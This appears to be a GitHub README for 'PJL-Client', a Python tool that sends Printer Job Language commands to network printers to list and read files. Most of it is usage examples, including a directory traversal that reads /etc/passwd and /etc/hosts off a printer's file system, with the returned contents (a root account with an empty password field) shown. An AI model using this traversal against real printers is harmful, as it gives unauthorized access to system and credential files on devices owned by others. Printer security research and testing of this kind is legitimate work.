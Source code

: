 # PJL-Client

Usage: python pjlclient.py <IP> <dir|read> <path/file>

Examples:

$python pjlclient.py 10.0.0.1 dir 0:/pcl/macros<br>
$python pjlclient.py 10.0.0.1 read 0:/pcl/macros/file.pcl<br>
$python pjlclient.py 10.0.0.1 read 0:\\..\\..\\..\\etc\\passwd

@PJL FSUPLOAD FORMAT:BINARY NAME="0:\..\..\..\etc\passwd" OFFSET=0 SIZE=23
root::0:0::/:/bin/dlsh

$python pjlclient.py 10.0.0.1 read 0:\\..\\..\\..\\etc\\hosts

@PJL FSUPLOAD FORMAT:BINARY NAME="0:\..\..\..\etc\hosts" OFFSET=0 SIZE=362

127.0.0.1		localhost mailhost loghost
